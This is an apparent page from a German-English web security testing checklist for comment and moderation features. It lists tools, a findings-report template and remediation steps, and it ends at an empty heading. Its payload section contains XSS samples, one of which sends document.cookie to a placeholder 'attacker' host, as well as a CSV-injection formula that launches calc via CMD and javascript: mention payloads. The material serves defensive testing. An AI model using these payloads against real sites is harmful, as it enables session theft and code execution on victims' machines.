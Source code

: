 
## Tools & Payload-Beispiele

- Tools: Burp Suite, Puppeteer/Selenium, headless browsers for detection, locust/vegeta for rate tests, exiftool for attachment metadata, ClamAV for attachment scanning, regex/fuzzy libs for mention fuzzing.
- XSS payload examples (PoC only in scope):
    - `<img src=x onerror=alert(1)>`
    - `"><svg onload=alert(1)>`
    - `<script>fetch('https://attacker/steal?c='+document.cookie)</script>`
- CSV injection prefixes: `=CMD|'/C calc'!A0`, `=1+1`, `+SUM(1,1)`, `1+1`, `@cmd`
- Obfuscation examples: `s\u200bpam`, `s p a m`, Unicode homoglyphs (ｅ for e).
- Mention edge: `@user<script>alert(1)</script>` or `@[user](javascript:alert(1))`

---

## Logging, Evidence & Reporting Template (Minimalfelder)

For each finding include:

- **TestID** (e.g., CM-01)
- **WSTG-Ref** (e.g., WSTG-XSS, WSTG-FILE)
- **Kurzbeschreibung**
- **Reproduktionsschritte** (raw POST/req, payload)
- **Beweis** (raw saved content, rendered screenshot, network exfil log, export file)
- **Severity (CVSS) + Business Impact**
- **Kurz-Fix** + Detaillierte Remediation
- **Temporary Mitigations** (e.g., disable attachments, hold posts for review)

---

## Schnelle Gegenmaßnahmen (Kurz)

- **Sanitize on server** with whitelist approach for allowed tags (if HTML allowed). Prefer plain text comments or tightly-scoped markdown. Use robust libs (DOMPurify, OWASP Java HTML Sanitizer, Bleach).
- **Rate limit** posting per user/IP + CAPTCHAs and reputation thresholds for new accounts.
- **Attachment controls**: size limits, content-type checks, magic-byte verification, antivirus scanning, store outside webroot.
- **Moderation pipeline**: auto-flag suspicious posts (links, repeated posts, obfuscated spam), quarantine before publishing for new/untrusted users.
- **Normalize input** to detect obfuscation (unicode normalization, remove zero-width chars).
- **Sanitize exports** (CSV cell prefixing), escape in feeds.
- **Use CSP** and output escaping to mitigate impact of any XSS slip-through.
- **Monitoring & rate alarms**: alert on surge of posts, similar content patterns, or many failed moderation checks.

---

## Tiefergehende / Architektur-Empfehlungen
